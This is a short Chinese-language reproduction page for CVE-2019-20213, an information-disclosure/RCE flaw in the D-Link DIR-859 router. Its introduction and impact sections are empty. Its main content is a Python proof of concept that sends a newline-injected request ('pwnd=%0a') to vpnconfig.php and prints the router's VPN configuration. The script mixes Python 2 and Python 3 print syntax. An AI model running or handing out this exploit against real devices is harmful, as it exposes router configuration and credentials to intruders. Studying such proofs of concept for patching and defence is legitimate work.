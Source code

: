 ```yaml
---
title: "（CVE-2019–20213）D-Link DIR-859 rce"
id: zhfly3388
---
```


# （CVE-2019–20213）D-Link DIR-859 rce

## 一、漏洞简介

## 二、漏洞影响

![image](../img/6ae54a68f5d1743c2a05ad37071369a2.png)

## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text) 
```